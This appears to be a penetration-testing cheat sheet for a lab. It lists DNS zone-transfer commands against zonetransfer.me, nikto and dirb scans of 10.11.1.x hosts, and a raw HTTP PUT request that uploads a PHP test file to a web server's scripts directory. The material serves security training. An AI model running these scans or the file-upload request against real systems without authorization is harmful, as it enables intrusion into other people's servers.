 ***

## DNS Enumeration

Zone transfer vulnerability:

```
dnsrecon -d zonetransfer.me -t axfr
```

```
host -t ns zonetransfer.me
```

```
host -l zonetransfer.me <nameserver>
```

```
host -t mx zonetransfer.me
```

```
host zonetransfer.me
```

```
dnsenum zonetransfer.me
```

***

## Website Enumeration

Nikto HTTP(s) scanning:

```
nikto -h 10.11.1.115:443
```

```
dirb http://10.11.1.115
```

Burp Suite PUT request to create file:

```
PUT /scripts/helloworld.php HTTP/1.1
Host: 10.11.1.13
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 25

<?php echo("Success"); ?>
```

